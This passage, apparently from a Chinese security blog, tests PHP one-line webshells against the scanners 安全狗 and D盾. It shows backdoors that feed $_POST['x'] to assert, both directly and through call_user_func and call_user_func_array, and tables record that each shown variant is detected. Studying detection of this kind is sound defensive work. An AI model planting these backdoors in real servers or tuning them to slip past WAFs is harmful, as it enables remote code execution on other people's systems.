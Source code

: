 但是换一种方式将`$_POST['x']`当做参数传递的话就都翻车了：

```php
<?php 
    function sqlsec($a){
        assert($a);
    }
    sqlsec($_POST['x']);
?>
```

| 安全狗                            | D盾      |
| :-------------------------------- | :------- |
| 1 个安全风险 assert PHP一句话后门 | 已知后门 |

### 回调函数

前辈们说常⽤的回调函数⼤部分都无法绕过 WAF 了，测试了 P 神博客分享的一些回调函数，发现均被拦截识别出来了。下面还是来手工一个个验证看看吧。



####  all_user_func()

```php
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] )
```

第一个参数 `callback` 是被调用的回调函数，其余参数是回调函数的参数。

```php
<?php
    call_user_func('assert',$_POST['x']);
?>
```

| 安全狗                          | D盾                              |
| :------------------------------ | :------------------------------- |
| 1 个安全风险 call_user_func后门 | 级别 5 (内藏) call_user_func后门 |

![0l3oeP.png](https://s1.ax1x.com/2020/10/02/0l3oeP.png)

![0l3xLq.png](https://s1.ax1x.com/2020/10/02/0l3xLq.png)

#### call_user_func_array()

```php
call_user_func_array ( callable $callback , array $param_arr )
```

把第一个参数作为回调函数（`callback`）调用，把参数数组作（`param_arr`）为回调函数的的参数传入。

```php
<?php
    call_user_func_array(assert,array($_POST['x']));
?>
```
